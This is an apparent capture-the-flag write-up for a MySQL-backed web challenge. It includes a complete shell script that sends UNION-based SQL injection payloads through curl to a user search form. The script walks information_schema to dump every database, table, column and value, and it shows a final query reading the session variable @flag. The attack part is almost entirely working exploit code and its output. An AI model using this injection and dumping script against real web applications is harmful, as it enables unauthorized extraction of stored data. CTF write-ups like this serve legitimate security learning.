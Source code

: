 # Super duper advanced attack

```
Can you find the flag?

http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000

Hint
You don't need to search for the flag outside the DB, there is more than tables and columns in a DB. 
```

It's a web application with a form that lets us search for users by their username. It seems to be using MySQL's `LIKE` feature, as it returns a user even when you only search for a substring of their name. The server is down as I'm writing this, so I don't have a minimal payload exmaple, sorry.

I wrote a script to dump the whole db, column-by column, using UNION queries on information_schema:


```
#!/bin/sh

URL='http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000/'

query() {
	curl --silent --data-urlencode "username=blah%' union select 1337, $3 from $1.$2 where $4 and $5 like '%$6" "$URL"  
}

scrape() {
	grep -A 1 --no-group-separator '<td>' |
	grep -v '<td>' |
	grep -v 1337 |
	sed 's/^[[:space:]]*//'
}

query_dbs() {
	query information_schema schemata schema_name '1=1' schema_name 
}

query_tables() {
	query information_schema tables table_name '1=1' table_schema "$1" 
}

query_columns() {
	query information_schema columns column_name "table_schema='$1'" table_name "$2" 
}

query_values() {
	query "$1" "$2" "$3" '1=1' "$3" 
}

query_expression() {
	query information_schema schemata "$1" '1=1' schema_name information_schema
}

query_dbs | scrape |
while read db
do
	query_tables "$db" | scrape | 
	while read table
	do
		query_columns "$db" "$table" | scrape |
		while read column
		do
			echo "$db" "$table" "$column"
			query_values "$db" "$table" "$column" | scrape
			echo
		done
	done
done
```

However, the flag wasn't in there!!! wtf? A lot of other people were having trouble with this, too. Eventually, however, I tried this:

```
$ query_expression @flag | scrape
EKO{do_not_forget_session_variables}
```
